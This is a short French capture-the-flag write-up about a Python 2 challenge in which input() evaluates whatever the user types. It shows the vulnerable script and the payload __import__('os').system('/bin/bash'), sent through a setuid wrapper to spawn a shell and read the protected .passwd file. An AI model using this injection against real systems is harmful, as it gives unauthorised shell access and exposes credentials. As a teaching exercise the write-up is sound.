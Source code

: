 # Python - input()

## Code source 

```
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```

## Procédure

1. Après lecture du code on se rend compte que le mot de passe n'est pas nécessaire et qu'il faut rooter la machine. 

2. La faille se trouve au niveau de l'entrée utilisateur input()

3. Exploitation de la faille input()

```
./setuid-wrapper

Please enter password : __import__("os").system("/bin/bash")
app-script-ch6-cracked@challenge02:~$ cat .passwd
```